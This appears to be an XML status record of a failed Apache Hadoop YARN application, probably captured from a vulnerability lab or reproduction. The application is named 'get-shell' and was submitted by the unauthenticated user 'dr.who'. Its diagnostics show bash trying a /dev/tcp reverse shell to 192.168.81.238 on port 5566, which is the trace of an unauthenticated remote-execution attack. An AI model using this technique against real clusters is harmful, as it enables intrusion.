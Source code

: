 ```
<user>dr.who</user>
<name>get-shell</name>
<queue>default</queue>
<state>FAILED</state>
<finalStatus>FAILED</finalStatus>
<progress>0.0</progress>
<trackingUI>History</trackingUI>
<trackingUrl>http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016</trackingUrl>
<diagnostics>Application application_1688957760252_0016 failed 2 times due to AM Container for appattempt_1688957760252_0016_000002 exited with exitCode: 1 Failing this attempt.Diagnostics: Exception from container-launch. Container id: container_1688957760252_0016_02_000001 Exit code: 1 Exception message: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused Stack trace: ExitCodeException exitCode=1: /bin/bash: connect: Connection refused /bin/bash: /dev/tcp/192.168.81.238/5566: Connection refused at org.apache.hadoop.util.Shell.runCommand(Shell.java:972) at org.apache.hadoop.util.Shell.run(Shell.java:869) at org.apache.hadoop.util.Shell$ShellCommandExecutor.execute(Shell.java:1170) at org.apache.hadoop.yarn.server.nodemanager.DefaultContainerExecutor.launchContainer(DefaultContainerExecutor.java:236) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:305) at org.apache.hadoop.yarn.server.nodemanager.containermanager.launcher.ContainerLaunch.call(ContainerLaunch.java:84) at java.util.concurrent.FutureTask.run(FutureTask.java:266) at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142) at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617) at java.lang.Thread.run(Thread.java:748) Container exited with a non-zero exit code 1 For more detailed output, check the application tracking page: http://1aed46d5d18f:8088/cluster/app/application_1688957760252_0016 Then click on links to logs of each attempt. . Failing the application.</diagnostics>
<clusterId>1688957760252</clusterId>
<applicationType>YARN</applicationType>
<applicationTags/>
<priority>-1</priority>
<startedTime>1688968516137</startedTime>
<finishedTime>1688969160731</finishedTime>
<elapsedTime>644594</elapsedTime>
<amContainerLogs>http://455c7d01c293:8042/node/containerlogs/container_1688957760252_0016_02_000001/dr.who</amContainerLogs>
<amHostHttpAddress>455c7d01c293:8042</amHostHttpAddress>
<allocatedMB>-1</allocatedMB>
<allocatedVCores>-1</allocatedVCores>
<runningContainers>-1</runningContainers>
<memorySeconds>658947</memorySeconds>
<vcoreSeconds>643</vcoreSeconds>
<queueUsagePercentage>0.0</queueUsagePercentage>
<clusterUsagePercentage>0.0</clusterUsagePercentage>
<preemptedResourceMB>0</preemptedResourceMB>
<preemptedResourceVCores>0</preemptedResourceVCores>
<numNonAMContainerPreempted>0</numNonAMContainerPreempted>
<numAMContainerPreempted>0</numAMContainerPreempted>
<preemptedMemorySeconds>0</preemptedMemorySeconds>
<preemptedVcoreSeconds>0</preemptedVcoreSeconds>
<logAggregationStatus>SUCCEEDED</logAggregationStatus>
<unmanagedApplication>false</unmanagedApplication>
<appNodeLabelExpression/>
<amNodeLabelExpression/>
</app>
```
